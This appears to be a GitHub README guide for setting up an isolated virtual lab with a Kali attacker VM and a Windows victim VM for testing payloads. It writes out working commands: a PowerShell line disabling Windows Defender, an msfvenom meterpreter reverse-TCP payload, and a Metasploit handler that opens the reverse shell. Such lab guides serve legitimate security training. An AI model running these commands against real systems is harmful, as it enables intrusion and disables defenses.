 
# Building an Isolated Virtualization Lab for Advanced Payload Testing  
**Author:** Adrian Obungu 
**GitHub Repo:** https://github.com/Adrian-Obungu/Isolated-Virtualization-Lab
**Last Updated:** 4|25|2025  

---

## 1. Introduction  
This guide provides a step-by-step process to create a **secure, air-gapped lab** for testing exploits, malware, and penetration techniques without risking real-world systems.  

---

## 2. Lab Objectives  
- Isolate lab environments from production networks.  
- Safely execute and analyze advanced payloads.  
- Monitor attacks using network/host-based tools.  

---

## 3. Hardware & Software Requirements  

### Hardware  
| Component | Specification |  
|-----------|---------------|  
| CPU       | Intel VT-x/AMD-V Enabled |  
| RAM       | 16GB+ (8GB minimum) |  
| Storage   | 200GB+ SSD |  

### Software  
| Tool | Purpose |  
|------|---------|  
| VMware/VirtualBox | Hypervisor |  
| Kali Linux | Attacker OS |  
| Windows 10 VM | Victim machine |  
| Wireshark | Network analysis |  

---

## 4. Virtualization Setup  

### 4.1 Install Hypervisor  
1. **VMware Workstation Pro**:  
   - Download from [VMware](https://www.vmware.com/products/workstation-pro.html).  
   - Enable virtualization in BIOS/UEFI.  

2. **VirtualBox**:  
   - Free alternative: [Download Here](https://www.virtualbox.org/).  

### 4.2 Configure Host-Only Networking  
- **VMware**:  
  - Go to `Edit > Virtual Network Editor > Add Network (Host-Only)`.  
- **VirtualBox**:  
  - Navigate to `File > Preferences > Network > Host-Only Networks`.  

---

## 5. Attacker & Victim VM Configuration  

### 5.1 Attacker Machine (Kali Linux)  
1. **Install Kali Linux**:  
   ```bash
   sudo apt update && sudo apt install metasploit-framework nmap -y
   ```  

2. **Start Metasploit Database**:  
   ```bash
   msfdb init && msfdb start
   ```  

### 5.2 Victim Machine (Windows)  
1. **Disable Windows Defender**:  
   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   ```  

2. **Create Shared Folder**:  
   - VMware: `VM Settings > Options > Shared Folders`.  

---

## 6. Payload Execution & Monitoring  

### 6.1 Generate a Payload  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.5 LPORT=4444 -f exe > payload.exe
```  

### 6.2 Execute & Monitor  
1. Transfer `payload.exe` to the victim via shared folders.  
2. Start a Metasploit listener:  
   ```bash
   msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.5; set LPORT 4444; run"
   ```  

3. **Analyze Traffic in Wireshark**:  
   ```plaintext
   Filter: ip.src == 192.168.56.5 && tcp.port == 4444
   ```  

---

## 7. Safety Best Practices  
- ✅ Use **snapshots** before testing.  
- ✅ Block internet access with a firewall (e.g., pfSense).  
- ❌ Never use real data in victim VMs.  

---

## 8. Troubleshooting  
| Issue | Solution |  
|-------|----------|  
| "VM not starting" | Enable virtualization in BIOS/UEFI. |  
| "Payload fails" | Verify host-only network IPs. |  
| "No internet in VMs" | Ensure NAT is disabled. |  

---

## 9. Generate a PDF  
1. Install **Pandoc** and **LaTeX** (see [installation steps](#)).  
2. Run:  
   ```bash
   pandoc Isolated_Lab_Guide.md -o Isolated_Lab_Guide.pdf --pdf-engine=xelatex
   ```  

---

## License  
This project is licensed under the [MIT License](LICENSE).  

**[⬆ Back to Top](#building-an-isolated-virtualization-lab-for-advanced-payload-testing)**  
